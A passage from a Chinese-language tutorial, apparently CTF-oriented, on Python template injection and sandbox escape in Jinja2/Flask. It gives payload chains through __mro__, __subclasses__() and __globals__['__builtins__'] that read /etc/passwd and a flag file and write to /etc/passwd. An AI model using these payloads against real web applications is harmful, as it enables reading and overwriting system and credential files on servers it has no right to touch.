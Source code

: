 **基本流程**

使用魔术方法进行函数解析，再获取基本类：

```python
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
```

获取基本类后，继续向下获取基本类 object 的子类：

```python
object.__subclasses__()
```

找到重载过的__init__类（在获取初始化属性后，带 wrapper 的说明没有重载，寻找不带 warpper 的）：

```python
>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

查看其引用 __builtins__

Python 程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于 builtins 却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块。

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
```

这里会返回 dict 类型，寻找 keys 中可用函数，直接调用即可，使用 keys 中的 file 以实现读取文件的功能：

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('F://GetFlag.txt').read()
```

**读写文件**

读文件：

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```

写文件：

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').write()
```

存在的子模块可以通过 .index() 来进行查询，如果存在的话返回索引，直接调用即可。

还有另外的方法：
